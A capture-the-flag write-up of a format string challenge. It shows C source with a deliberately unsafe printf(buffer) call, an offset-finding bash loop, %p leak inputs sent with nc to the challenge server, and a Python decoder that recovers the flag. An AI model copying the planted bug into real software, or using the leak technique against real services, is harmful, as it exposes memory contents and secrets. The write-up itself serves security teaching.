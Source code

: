 # PWN warm up

**_Format String + Memory Leak_**

This challenge involves a binary vulnerable to format string exploitation. The binary loads a `flag` file into memory before handling user input, which is directly printed using a format string vulnerability.

## Source Code Analysis

Here is the source code for the binary (chall.c):

```c
//gcc -fno-pie -no-pie -fno-stack-protector ./chall.c -o chall
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}

void vuln()
{
    char buffer[16];
    char flag[16];
    FILE *file = fopen("./flag", "r");
    if (file == NULL) {
        perror("Error opening ./flag");
        return;
    }
    fscanf(file, "%15s", flag);

    printf("u give input, i print out your input\n");
    printf("Input: ");
    fgets(buffer, sizeof(buffer), stdin);
    printf("Your input is: ");
    printf(buffer);  // Vulnerable line
    return;
}

int main()
{
    initialize();

    vuln();
    return 0;
}
```

### Vulnerability Details

- **Format String Vulnerability**: The `printf(buffer);` call in the `vuln()` function directly prints user input without specifying a format string. This allows attackers to exploit format string specifiers like `%p` to leak memory addresses or other sensitive data.
- **Flag Handling**: The `flag` is read into a stack buffer (`flag[16]`) before user input is processed. This means the flag resides in memory and can potentially be leaked through the vulnerability.

## Exploitation Steps

### Step 1: Confirm Format String Vulnerability

To test the format string vulnerability, initially, an error occurs due to the absence of the `flag` file:

```bash
┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ ./chall 
Error opening ./flag: No such file or directory
```

To proceed, a dummy flag file is placed in the same directory:

```bash
┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ echo "FLAG" > flag  

┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ cat flag 
FLAG
```

Running the binary and providing `%p` as input confirms the vulnerability:

```bash
./chall
Input: %p %p %p %p %p
Your input is: 0x7ffe02d61b60 (nil) (nil) 0x1 (nil)
```

### Step 2: Find Format String Offset

To determine the correct offset for the format string vulnerability, a script (`findOffset.sh`) can be used:

```bash
#!/bin/bash

for i in $(seq 100)
do
    echo "Offset $i : %$i\$p" | ./chall
done
```

Running this script reveals the flag's offset. For instance:

```bash
┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ ./findOffset.sh | grep "47414c46"
Input: Your input is: Offset 6 : 0x47414c46 u give input, i print out your input
```

The result shows the flag's hex representation (e.g., `47414c46` for `FLAG`, reversed due to little-endianness). The first 8 bytes of the flag are at offset 6, and the next 8 bytes are at offset 7.

### Step 3: Leak the Full Flag

Using the determined offsets, the full flag can be reconstructed. For example:

```bash
┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ nc 5.75.155.50 10001
u give input, i print out your input
Input: %6$p
Your input is: 0x726f667b554c5343

┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ nc 5.75.155.50 10001
u give input, i print out your input
Input: %7$p        
Your input is: 0x7d72747374346d
```

Then, use Python to convert and reverse the bytes:

```python
import struct
flag_part1 = struct.pack("<Q", 0x726f667b554c5343).decode()
flag_part2 = struct.pack("<Q", 0x7d72747374346d).decode()  # Replace with the next leak
flag = flag_part1 + flag_part2
print(flag)
```

Result:

```bash
┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ python3 hexToBytes_FlipLittleEndianness.py
CSLU{form4tstr}
```

